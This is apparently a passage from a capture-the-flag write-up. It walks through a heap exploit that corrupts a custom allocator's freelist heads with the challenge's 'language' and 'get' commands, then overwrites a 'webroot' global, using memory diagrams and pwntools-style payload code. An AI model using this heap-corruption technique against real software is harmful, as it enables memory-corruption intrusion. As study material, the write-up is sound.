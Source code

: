    ```
   [0x1: | 9 | AAAAAAAA.... ]
   [0x2: | \x00\x00\x00\x00 | AAAAAA... ] <- heads[9]
   [0x3: | addr | ... ] <- heads[1]
   [0x4: | NULL | ... ] <- heads[8]
   ```
   
3. Trigger allocation in bin 1 with the `language` command

   ```
   [0x1: | 9 | command: "language"]
   [0x2: | 9 | new_language: "Y" * 16 ]
   [0x3: | 2 | language: "Y" * 16 ]
   [0x4: | NULL | ... ] <- heads[8]
   ```
   
   This will write `addr` to the top of the freelist of bin 1 and the chunk at
   `0x3` stays allocated, i.e. `heads[1] == addr`.

   We chose addr to be something we can later use to manipulate the freelist
   heads. We computed `addr` in the following way:
   
   ```python
   webroot = "./public/"

   # the address we want to write to malloc_freelist_heads[0]
   w_real_addr = p64(velf.symbols['webroot'] - 1)
   # the padding we need so that this is allocated in bin 1
   w_addr_pad = "X" * (16 - strlen(w_real_addr))
   w_addr =  w_addr_pad + w_real_addr

   # we want to write to malloc_freelist_heads[0]
   addr = velf.symbols["malloc_freelist_heads"]
   addr -= len(webroot)   # get first copies "./public/"
   addr -= len(w_addr_pad)  # padding to allocate in bin 1
   addr -= 1  # malloc returns ptr+1
   ```

   Sothe next allocation in bin 1 will return a pointer that we can use to
   manipulate the actual freelist headers.

4. Perform `get` command to corrupt the freelist heads

   ```python
   vp.sendline("get")
   vp.sendline(w_addr)
   ```
   
   so the freelist head of bin 0 now is `&webroot - 1`.

5. Use `language` command to manipulate the `webroot` global variable.
   Allocating in bin 0, will now return the desired address.
   
   ```python
   vp.sendline("language")
   vp.sendline(p64(0x004014a2))  # just one of the pointers to a NULL byte
   ```
   